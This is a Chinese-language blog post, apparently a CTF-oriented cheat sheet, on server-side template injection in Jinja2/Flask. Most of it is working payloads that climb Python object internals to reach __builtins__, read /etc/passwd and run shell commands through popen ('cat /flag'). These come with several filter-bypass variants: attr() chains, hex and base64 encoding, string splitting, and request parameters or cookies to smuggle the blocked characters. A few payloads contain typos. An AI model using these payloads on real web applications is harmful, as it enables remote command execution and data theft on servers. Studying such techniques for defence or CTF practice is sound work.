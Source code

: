 # SSTI注入篇


# SSTI 漏洞成因

ssti 服务端模板注入成因为：web 应用在使用框架（如 python 的 flask、jinjia2、django；java 的 freemarker、velocity；php 的 thinkphp、smarty 等）时，由于程序员对代码编写的不规范、不严谨造成模板注入漏洞，攻击者通过恶意注入模板代码影响服务器端模板引擎的行为。

# SSTI 中常用魔术方法

- \_\_class\_\_ 返回一个实例所属的类
- \_\_mro\_\_ 查看类继承的所有父类，直到 object
- \_\_subclasses\_\_() 获取一个类的子类，返回的是一个列表
- \_\_bases\_\_ 以元组形式返回一个类直接继承的类
- \_\_init\_\_ 类实例创建之后调用，对当前对象的实例的初始化
- \_\_globals\_\_ 使用方式为**函数名**\.\_\_globals\_\_，返回一个当前空间下能使用的模块、方法和变量的字典
- \_\_getattribute\_\_ 当类被调用时，无条件进入此函数
- \_\_getattr\_\_ 访问对象中不存在的属性时调用
- \_\_dict\_\_ 返回所有属性，包括属性、方法等
- \_\_builtins\_\_ 查看当前所有导入的内建函数

# 攻击思路

- ## 获取基本类

```
dict //返回类中的函数和属性，父类子类互不影响
base //返回类的父类 python3
mro //返回类继承的元组，(寻找父类) python3
init //返回类的初始化方法  
subclasses() //返回类中仍然可用的引用 python3
globals //对包含函数全局变量的字典的引用 python3

对于返回的是类实例的话:
class //返回实例的对象，可以使类实例指向 Class，使用上面的魔术方法
```

```
''.__class__.__mro__[-1]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
```

- ## 获取基本类后，继续获取基本类的子类

  ```
  object.subclasses()
  ```

- ## 找\_\_init\_\_类

  ```
  ''.__class__.__mro__[2].__subclasses__()[99].__init__
  ```

- ## 查看其引用\_\_builtins\_\_

  ```
  ''.__class__.__mro__[2].__subclasses__()[138].__init__.__globals__['__builtins__']
  ```

- ## 寻找 keys 中可用函数，使用 keys 中的 file 等函数来实现读取文件的功能

```
''.__class__.__mro[2].subclasses()[138].init.globals['builtins']['file']('/etc/passwd').read()
```

# 常用目标函数

```
file、subprocess.Popen、os.popen、exec、eval
```

# 绕过过滤方法

- ## 过滤中括号

  魔术方法\_\_getitem\_\_可替代中括号

  ```
  当中括号被过滤时，如下将被限制访问:
  {{''.__class__.__base__.__subclasses__()['xx'].['popen']('cat /flag')}}

  可用**getitem**替换中括号[]:
  {{''.__class__.__base__.__subclasses__().__getitem__(13).__getitem__('popen')('cat /flag')}}
  ```

- ## 过滤下划线

  ```
  原 payload 被限制:
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__['popen']('cat /flag').read() }}

  1.使用 attr()绕过，payload:
  {{ () | attr(request.args.a) | attr(request.args.b) | attr(request.args.c) | attr(request.args.d) | attr(request.args.e)()['popen']('cat /flag') | attr('read')() }}
  同时 get 方法传参?a=__class__&b=__base__&c=__subclasses__&d=__init__&e=__globals__

  2.将下划线进行编码绕过，payload:
  {{ ().['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubclasses\x5f\x5f']()[xx]['\x5f\x5finit\x5f\x5f'].['\x5f\x5fglobals\x5f\x5f']['popen']('cat /flag') }}
  ```

- ## 过滤点

  ```
  原 payload 被限制:
  {{ ().__class__.__base__.subclasses__()[xx].__init__.__globals__['popen']('cat /flag').read() }}

  1.使用 attr()绕过，payload:
  {{ () | attr('__class__') | attr('__base__') | attr('__subclasses__')() | attr('__getitem__')(xx) | attr('__init__') | attr('__globals__') | attr('__getitem__')('popen')('cat /flag') | attr('read')()}}

  2. 使用中括号绕过，payload:
     {{ ()['__class__']['__base__']['__subclasses__']()[xx]['__init__']['__globals__']['popen']('cat /flag')['read']()}}
  ```

- ## 过滤大括号

使用`{%%}`替代`{{}}`，payload:

```markdown
{% print(''.__class__.__base__.__subclasses__()[xx].__init__.__globals__['popen']('cat /flag').read()) %}
```

- ## 过滤引号

  ```
  当'被过滤后以下访问将被限制
  {{ ().__class__.__base__.subclasses__()[xx].__init__.__globals__['popen']('cat /flag').read() }}

  1.通过 request.args 的 get 传参输入引号内的内容，payload：
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__[request.args.popen](request.args.cmd).read() }}
  同时 get 传参?popen=popen&cmd=cat /flag

  2.通过 request.form 的 post 传参输入引号内的内容，payload：
  {{ ().__class__.__base__.__subclasses__()[117].__init__.__globals__[request.form.popen](request.form.cmd).read() }}
  同时 post 传参?popen=popen&cmd=cat /flag

  3.使用 cookies 传参，如 request.cookies.k1、request.cookies.k2、k1=popen;k2=cat /flag
  ```

- ## 过滤数字

  ```
  使用过滤器 length 绕过
  {% set a='aaa' | lenth %}{{ ().__class__.__base__.__subclasses__()[a]}}
  ```

- ## 过滤函数名

  ```
  1.使用拼接绕过，payload:
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__['pop'+'en']('cat /fl' + 'ag').read() }}
  
  2.16进制编码绕过，payload:
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__['\x70\x6f\x70\x65\x6e']('cat /flag').read() }}
  
  3.base64编码绕过，payload:
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__[base64.b64decode('cG9wZW4=').decode()]('cat /fl' + 'ag').read() }}
  ```


---

> 作者: Hinoatari  
> URL: https://hinoatari.github.io/posts/ssti%E6%B3%A8%E5%85%A5%E7%AF%87/  

